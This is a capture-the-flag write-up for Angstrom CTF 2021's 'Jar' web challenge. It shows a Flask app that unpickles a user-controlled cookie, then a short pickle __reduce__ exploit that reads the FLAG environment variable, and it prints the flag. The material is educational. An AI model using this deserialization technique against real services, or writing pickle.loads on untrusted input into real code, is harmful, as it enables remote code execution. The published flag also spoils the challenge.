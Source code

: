 ```yaml
---
name: Jar (2021)
event: Angstrom CTF 2021
category: Web
description: Writeup for Jar (Web) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Jar

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/c147fBCppb8/0.jpg)](https://youtu.be/c147fBCppb8?t=28s "Angstrom 2021: Jar")

## Challenge Description

> My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

## Source

{% code overflow="wrap" %}
```py
import base64
import pickle
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
    return send_file('pickle.jpg')

@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response

app.run(threaded=True, host="0.0.0.0")
```
{% endcode %}

## Solution

#### exploit.py

{% code overflow="wrap" %}
```py
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        return (os.getenv, ('FLAG',))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
{% endcode %}

#### print_flag.js

{% code overflow="wrap" %}
```js
var divs = document.getElementsByTagName("div");
var flag = "";

for (var i = 0; i < divs.length; i++) {
    flag += divs[i].innerText;
}

console.log(flag);
```
{% endcode %}

Flag: `actf{you_got_yourself_out_of_a_pickle}`
